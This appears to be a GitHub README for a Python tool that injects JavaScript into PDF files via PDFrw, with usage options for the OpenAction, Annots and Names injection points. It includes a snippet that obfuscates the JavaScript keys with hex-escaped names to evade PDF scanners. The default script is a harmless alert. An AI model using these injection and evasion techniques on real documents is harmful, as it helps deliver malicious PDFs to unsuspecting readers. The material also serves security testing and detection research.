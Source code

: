 # Inject-JavaScript-via-PDFrw-example

``` 
usage: injector.py [-h] -i PATH [--script SCRIPT] [--name NAME] [--output OUT] [--inject_place INJECT_PLACE]

Inject JavaScript in PDF using PDFrw

optional arguments:
  -h, --help            show this help message and exit
  -i PATH               path/to/orig.pdf
  --script SCRIPT       path to file with JS-script; app.alert({cMsg: "Something wrong!", cTitle: "WARNING"}); by default
  --name NAME           script name if injecting in /Names; ErrorScript by default
  --output OUT          output file name; inj.pdf by default
  --inject_place INJECT_PLACE
                        [OpenAction | Annots | Names]; openaction by default
```

- Пример действия в ветке Names с обфускацией:

```
names = IndirectPdfDict(**{"J#61vaScript": IndirectPdfDict(
        Names=[PdfString(script_name), IndirectPdfDict(JS=PdfString(script_code), S=PdfName('4A617661536372697074'))]
        )})
```

- Результат:

`/Names (Indirect Dict 1)` --> 

(Indirect Dict 1)

`<</J#61vaScript (Indirect Dict 2)>>` --> 

(Indirect Dict 2)

`<< /Names [(script_name), (Indirect Dict 3)` -->

(Indirect Dict 3)

`<< /JS: (script_code;), /S: /4A617661536372697074>>]>>`

